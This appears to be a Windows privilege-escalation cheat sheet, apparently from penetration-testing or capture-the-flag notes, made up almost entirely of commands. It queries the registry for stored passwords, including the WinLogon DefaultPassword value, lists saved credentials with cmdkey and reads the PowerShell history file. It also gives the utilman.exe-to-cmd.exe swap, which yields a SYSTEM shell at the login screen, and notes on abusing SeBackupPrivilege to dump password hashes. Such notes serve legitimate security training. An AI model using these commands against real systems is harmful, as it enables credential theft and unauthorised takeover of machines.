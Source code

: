 ```bash
whoami /priv
```

```bash
netstat -nao
```

```bash
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

```bash
wmic qfe list
```

```bash
cmdkey /list
```

```bash
REG QUERY HKLM /f pass /t REG_SZ /s
```

```bash
REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultPassword
```

```bash
REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultPassword /reg:64
```

```bash
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### Vulnerable Privileges

- SeRestorePrivileges

```bash
mv C:\Windows\System32\utilman.exe C:\Windows\System32\utilman.old
```

```bash
mv C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
```

```bash
rdesktop $ip
```

Enter WIN Key + U

- SeBackupPrivileges

This only works if it is a DC, if this wasn't a domain controller, there would be no NTDS.dit file to get passwords from, so we
would need to download the SYSTEM, SAM and SECURITY files instead, read HTB Blackfield guide instead

[https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)
